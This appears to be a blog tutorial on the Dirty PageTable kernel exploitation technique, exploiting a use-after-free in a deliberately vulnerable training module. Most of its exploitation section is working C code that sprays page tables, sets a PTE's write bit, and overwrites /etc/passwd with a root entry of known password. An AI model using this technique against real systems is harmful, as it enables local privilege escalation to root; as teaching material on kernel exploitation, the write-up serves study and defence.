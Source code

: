 ```yaml
---
title: Linux Kernel Exploitation - Dirty PageTable
date: 2025-04-28
categories: [Guide, Linux Kernel Exploitation]
tags: [linux, pwn]
---
```


In this post, I will explain the Dirty PageTable, an attack method that targets page tables and is used in data-only attacks. Download the [handouts](https://github.com/r1ru/linux-kernel-exploitation/tree/main/dirty-pagetable) beforehand.

## Analysis
The vulnerable LKM provides four commands: `CMD_ALLOC`, `CMD_READ`, `CMD_WRITE`, and `CMD_FREE`. These commands are used to allocate, read from, write to, and free objects defined as follows:

```c
#define OBJ_SIZE    0x200

struct obj {
    char buf[OBJ_SIZE];
};
```

Note that `CMD_ALLOC` and `CMD_FREE` internally use `kmem_cache_zalloc` and `kmem_cache_free`, respectively.
It means a dedicated cache is used for managing these objects:

```c
static long obj_alloc(int id) {
    if (objs[id] != NULL) {
        return -1;
    }
    objs[id] = kmem_cache_zalloc(obj_cachep, GFP_KERNEL);
    if (objs[id] == NULL) {
        return -1;
    }
    return 0;
}

static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```

The cache is created in `module_initialize`:

```c
static int __init module_initialize(void) {
    if (misc_register(&vuln_dev) != 0) {
        return -1;
    }
    obj_cachep = KMEM_CACHE(obj, 0);
    if (!obj_cachep) {
        return -1;
    }
    return 0;
}
```

## Bugs
In `obj_free`, `objs[id]` - a refence to freed memory region - is not cleared:
```c
static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```
This results in an obvious UAF vulnerability. Since we already have a read and write primitives, we can control RIP and escalate privileges by performing a cross cache attack, as expalined in the [last post](https://r1ru.github.io/posts/1). However, in this post, we take a different approach — a data-only attack that does not require RIP control to gain root access. Data-only attacks are import in the current era (due to `CONFIG_CFI_CLANG`) and are used in many real-world kernel exploitations.

## Dirty PageTable
As I explained in the [last post](https://r1ru.github.io/posts/1), by using cross cache attack, we can overlap victim objects with arbitrary kernel objects. In Dirty PageTable, we overlap victim objects with page tables. Since we already have read and write primitives, we can modify page tables as we like, resulting in arbitrary read and write access to the entire physical memory.

## Exploitation
The initial steps are the same as in the [previous post](https://r1ru.github.io/posts/1/#exploitation). The difference is in the fourth step, where we allocate a large number of page tables:
```c
int file_fd = open("/etc/passwd", O_RDONLY);
assert(file_fd != -1);

puts("[*] Spraying user pagetables to reclaim order-0 pages");
for (int i = 0; i < NUM_PAGE_TABLE_SPRAY ; i++) {
    if (mmap((void *)(0xdead0000000UL + 0x200000 * i), PAGE_SIZE, PROT_READ, MAP_SHARED | MAP_FIXED_NOREPLACE, file_fd, 0) == MAP_FAILED) {
        printf("[-] Failed to mmap %#lx\n", 0xdead0000000UL + 0x200000 * i);
        exit(1);
    }
    *(volatile char*)(0xdead0000000UL + 0x200000 * i);
}
```
Here, we map `/etc/passwd` to user space. Note that we use `MAP_FIXED_NOREPLACE` flag and read from the page to ensure the page mapping is new and actually mapped.

Next, we locate the victim object and modify the PTE:
```c
unsigned long pte;
int victim = -1;
for (int i = 0; i < num_sprary; i += objs_per_slab * 2) {
    obj_read(i, (char *)&pte, 8);
    if (pte != 0) {
        victim = i;
        printf("[+] Found victim = %d, pte = %#lx\n", victim, pte);
        pte |= 0x2;
        printf("[*] Overwritting PTE with %#lx\n", pte);
        obj_write(victim, (char *)&pte, 8);
        break;
    }
}
if (victim == -1) {
    puts("[-] Failed to locate the victim object");
    exit(0);
}
```
Here, we enable the R/W flag. After this, we can modify `/etc/passwd`, even though the page was initially mapped as read-only. See the [osdev article](https://wiki.osdev.org/Paging) for more details about paging.

Finally, we overwrite `/etc/passwd` (`j9ep0CjBGivAnD5z6l5rr0` is MD5-encoded password with salt `deadbeef`):
```c
system("echo -e 'root:$1$deadbeef$j9ep0CjBGivAnD5z6l5rr0:0:0:root:/root:/bin/sh' > /tmp/evil");
int evil_fd = open("/tmp/evil", O_RDONLY);
assert(evil_fd != -1);
struct stat evil_stat;
assert(fstat(evil_fd, &evil_stat) != -1);

for (int i = 0; i < NUM_PAGE_TABLE_SPRAY ; i++) {
    if (pread(evil_fd, (char *)(0xdead0000000UL + 0x200000 * i), evil_stat.st_size, 0) != -1) {
        puts("[+] Success");
        puts("[+] You can now log in as root with the password: cafebabe");
        exit(0);
    }
}
```
Note that we use `pread` to ignore `SIGSEGV`. If we directly write to memory and the corresponding PTE is not valid, the program will exit.

If you run this exploit, you can log in as a root user with the passward `cafebabe` and see the flag:
![win](/assets/img/posts/2025-04-28-2/win.png)

## References
> The original article, *Nicolas Wu. Dirty Pagetable: A Novel Exploitation Technique To Rule Linux Kernel. https://yanglingxi1993.github.io/dirty_pagetable/dirty_pagetable.html* seems to be broken now.
{: .prompt-info }
1. Jann Horn. 2021. How a simple Linux kernel memory corruption bug can lead to complete system compromise. https://googleprojectzero.blogspot.com/2021/10/how-simple-linux-kernel-memory.html